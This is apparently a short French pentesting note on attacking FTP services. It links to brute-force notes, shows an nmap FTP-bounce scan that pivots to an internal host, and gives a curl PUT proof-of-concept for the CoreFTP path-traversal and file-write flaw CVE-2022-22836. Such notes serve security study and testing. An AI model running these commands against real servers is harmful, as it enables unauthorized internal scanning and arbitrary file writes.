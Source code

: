 
- [ ] [[#1. Bruteforce]]
- [ ] [[#2. FTP Bounce]]
- [ ] [[#3. CVEs]]


---

# 1. Bruteforce
## [[Bruteforce en ligne#FTP]]


---

# 2. FTP Bounce

Le FTP sert de point de pivot et redirige le trafique en interne.

![[Pasted image 20250327195733.png]]

Nmap avec le flag -b

```shell
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```


---

# 3. CVEs


## [CVE-2022-22836](https://www.exploit-db.com/exploits/50652)

> [!Tip]
> CoreFTP before build 727
> Authenticated Path traversal & arbitrary file write

HTTP PUT request

```shell
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

